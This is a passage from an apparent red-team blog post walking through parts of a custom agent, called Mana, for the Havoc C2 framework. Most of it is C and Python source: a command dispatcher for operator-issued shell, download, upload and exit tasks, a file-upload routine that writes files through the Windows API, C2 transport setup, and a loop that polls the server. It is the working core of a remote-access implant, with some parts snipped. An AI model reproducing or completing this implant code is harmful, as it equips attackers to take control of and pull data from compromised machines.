To fix this go to the agent.py and add the following code on the else after registering the command. This handle re-registration by just returning the existing AgentID.

```py
if Command == COMMAND_REGISTER:
                print("[*] Agent re-registering, returning existing ID")
                return int(AgentID, 16).to_bytes(4, 'little')
```

Testing it again. It's now working and command not found is not showing up



```c
#include <Mana.h>

#include <Command.h>
#include <Package.h>
#include <Core.h>

#define Mana_COMMAND_LENGTH 5
//later I will be adding more commands here and if there are new commands that needs to be added it goes here and on the python agent as well.

Mana_COMMAND Commands[ Mana_COMMAND_LENGTH ] = {
        { .ID = COMMAND_SHELL,            .Function = CommandShell },
        { .ID = COMMAND_DOWNLOAD,         .Function = CommandDownload },
        { .ID = COMMAND_UPLOAD,           .Function = CommandUpload },
        { .ID = COMMAND_EXIT,             .Function = CommandExit },
};

// This function you could think of it like, it simply waits for a command.
// It's like a butler/waiter if there is no command it will simple says COMMAND_NO_JOB
// If there is a command issued by the operator it goes here and gets executed 
VOID CommandDispatcher()
{
  <SNIPPED>

    do
    {
        if ( ! Instance.Session.Connected ) {
            puts("Instance Session not connected");
            return;
        }

        Sleep( Instance.Config.Sleeping );

       <SNIPPED>
       //If task is not = to command no job it means it will executes a command specified by the operator
                if ( TaskCommand != COMMAND_NO_JOB )
                {
                    printf( "Task => CommandID:[%lu : %lx]\n", TaskCommand, TaskCommand );

                    BOOL FoundCommand = FALSE;
                    for ( UINT32 FunctionCounter = 0; FunctionCounter < Mana_COMMAND_LENGTH; FunctionCounter++ )
                    {
                        if ( Commands[ FunctionCounter ].ID == TaskCommand )
                        {
                            Commands[ FunctionCounter ].Function( &Parser );
                            FoundCommand = TRUE;
                            break;
                        }
                    }

                    if ( ! FoundCommand )
                        puts( "Command not found !!" );
        // Else it will be just in idle
                } else puts( "Is COMMAND_NO_JOB" );

            } while ( Parser.Length > 4 );

           <SNIPPED>
    } while ( TRUE );

    Instance.Session.Connected = FALSE;
}

<SNIPPED>
// command functions goes here. <snipped it for simplicity>
// most of the functions here are using winapi for example the command CommandUpload
// This use winapi createfileA and WriteFile to upload files and then packs the data to be sent back to c2.

VOID CommandUpload( PPARSER Parser )
{
    puts( "Command::Upload" );

    PPACKAGE Package  = PackageCreate( COMMAND_UPLOAD );
    UINT32   FileSize = 0;
    UINT32   NameSize = 0;
    DWORD    Written  = 0;
    PCHAR    FileName = ParserGetBytes( Parser, &NameSize );
    PVOID    Content  = ParserGetBytes( Parser, &FileSize );
    HANDLE   hFile    = NULL;

    FileName[ NameSize ] = 0;

    printf( "FileName => %s (FileSize: %d)", FileName, FileSize );

    hFile = CreateFileA( FileName, GENERIC_WRITE, 0, NULL, CREATE_NEW, FILE_ATTRIBUTE_NORMAL, NULL );

    if ( hFile == INVALID_HANDLE_VALUE )
    {
        printf( "[*] CreateFileA: Failed[%ld]\n", GetLastError() );
        goto Cleanup;
    }

    if ( ! WriteFile( hFile, Content, FileSize, &Written, NULL ) )
    {
        printf( "[*] WriteFile: Failed[%ld]\n", GetLastError() );
        goto Cleanup;
    }

    PackageAddInt32( Package, FileSize );
    PackageAddBytes( Package, FileName, NameSize );

    PackageTransmit( Package, NULL, NULL );

Cleanup:
    CloseHandle( hFile );
    hFile = NULL;
}

```

## Core.c

```c
#include <Mana.h>

#include <Core.h>
#include <Config.h>
#include <Package.h>
#include <Command.h>

//initialize mana, ensure to edit the variable to match the config.h specially the transport.secure since the config.h was dynamically generated it should fetch the value from the config.h
// add also the loop to add the headers.
VOID ManaInit()
{
    for (INT i = 0; i < CONFIG_HEADER_COUNT; i++) {
            CONFIG_HEADERS[i];
    }
    printf(CONFIG_HEADERS);

    // Init Connection info
    Instance.Config.Transport.UserAgent = CONFIG_USER_AGENT;
    Instance.Config.Transport.Uri      = CONFIG_ENDPOINT;
    Instance.Config.Transport.Headers      = CONFIG_HEADERS;
    Instance.Config.Transport.Host      = CONFIG_HOST;
    Instance.Config.Transport.Port      = CONFIG_PORT;
    Instance.Config.Transport.Secure    = CONFIG_SECURE; // NO SECURE

    // Init Win32
    Instance.Win32.RtlRandomEx   = (ULONG (*)(ULONG *)) GetProcAddress( GetModuleHandleA( "ntdll" ), "RtlRandomEx" );
    Instance.Win32.RtlGetVersion = (void (*)(struct _OSVERSIONINFOEXW *)) GetProcAddress( GetModuleHandleA( "ntdll" ), "RtlGetVersion" );

    Instance.Session.AgentID = RandomNumber32();
    Instance.Config.Sleeping = CONFIG_SLEEP;

    printf( "AgentID     => %x\n", Instance.Session.AgentID );
    printf( "Magic Value => %x\n", MANA_MAGIC_VALUE );
}

//reads output from a process stdout pipe and sends it back to the C2 server.
VOID AnonPipeRead( HANDLE hSTD_OUT_Read )
{
<SNIPPED>
    do
    {
        SuccessFul = ReadFile( hSTD_OUT_Read, buf, 1024, &dwRead, NULL );

        if ( dwRead == 0)
            break;

        pOutputBuffer = LocalReAlloc(
            pOutputBuffer,
            dwBufferSize + dwRead,
            LMEM_MOVEABLE | LMEM_ZEROINIT
        );

        dwBufferSize += dwRead;

        memcpy( pOutputBuffer + ( dwBufferSize - dwRead ), buf, dwRead );
        memset( buf, 0, dwRead );

    } while ( SuccessFul == TRUE );

   <SNIPPED>
}

//generates random number
ULONG RandomNumber32( VOID )
{
  <SNIPPED>
}

```

## Main.c

This C code is very much self explanatory, it just perform an infinite while loop to check if session is connected and if it's connected it initialize the transportinit and executes command dispacther.

```c
ManaInit();
    do
    {
        if ( ! Instance.Session.Connected )
        {
            if ( TransportInit( ) )
                CommandDispatcher();
        }
        
        Sleep( 3 * 1000 ); // this needs to be fixed later on it should match the Config.h

    } while ( TRUE );
```

The remaining c code and header is listed in the above table, if you missed it here it is. [Custom Agent](#custom-agent). Most of the remaining are related to helpers

# links

- https://github.com/HavocFramework/havoc-py
- https://github.com/HavocFramework/
- https://github.com/HavocFramework/Talon
- https://github.com/CodeXTF2/PyHmmm
- https://github.com/susMdT/SharpAgent/
- https://github.com/0xTriboulet/Revenant/
- https://codex-7.gitbook.io/codexs-terminal-window/red-team/red-team-dev/extending-havoc-c2/third-party-agents

For the next blog, I will show how to extend mana capabilities by adding new stuffs

I’m still learning, so some OPSEC trade-offs or imperfect practices may appear.


[back to blog](../blog.md)]]